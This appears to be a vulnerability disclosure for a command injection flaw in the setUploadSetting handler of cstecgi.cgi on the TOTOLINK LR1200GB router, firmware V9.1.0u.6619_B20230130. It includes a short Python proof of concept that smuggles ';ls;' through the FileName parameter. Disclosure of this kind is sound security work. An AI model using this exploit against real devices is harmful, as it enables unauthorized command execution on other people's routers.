


# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUploadSetting` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `cp %s /tmp....` and be excuted by `system` function, which allows an attacker to excute any command.


## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "FileName":";ls;",
    "topicurl":"setUploadSetting",
    "token":"00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```

